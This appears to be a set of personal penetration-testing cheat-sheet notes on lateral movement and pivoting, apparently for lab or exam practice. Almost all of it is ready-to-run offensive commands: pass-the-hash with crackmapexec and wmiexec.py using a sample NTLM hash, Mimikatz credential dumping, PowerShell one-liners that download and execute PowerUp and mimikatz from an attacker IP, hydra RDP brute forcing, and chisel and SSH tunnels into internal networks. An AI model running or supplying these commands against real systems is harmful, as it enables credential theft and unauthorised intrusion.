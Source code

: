  
 
 check hashes to see if they are legit
 
 crackmapexec smb IP -u username -H #### -put hash here
 
 
 
wmiexec.py Administrator@10.11.1.24 -hashes :ee0c207898a5bccc01f38115019ca2fb 
	
Make sure to try all the hashes available!!!! Even if the names look weird



https://dmcxblue.gitbook.io/red-team-notes/lateral-movement/pass-the-hash

# MimiKatz

privilege::debug

sekurlsa::logonpasswords

powershell  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.164/PowerUp.ps1'); Invoke-AllChecks

powershell  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.164/mimikatz.exe'); privilege::debug

powershell  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.164/mimikatz.exe'); sekurlsa::logonpasswords


# Brute Force

hydra -V -f -L /wordlist/for/user -P /usr/share/seclists/    rdp://


# SSH Port Forwarding
                  in net      out net
sshuttle -vr root@10.1.1.1 10.3.3.0/24 << network you want to talk to

sudo ./chisel server -p 443 --reverse 
./chisel client 192.168.119.164:443 R:socks

if there is an internal port that you cannot communicate with externally

chisel client 192.168.119.164:80 R:8080:127.0.0.1:8080 <-- on the victim>

sudo ./chisel server -p 80 --reverse <--On local kali> make sure the port you listen on is able to make it throught the firewall.

Dynamic

sudo ssh -N -D Loopback:8080 user@address to forward through

# SSH different Algoithim

ssh -o KexAlgorithms=diffie-hellman-group1-sha1 test@123.123.123.123
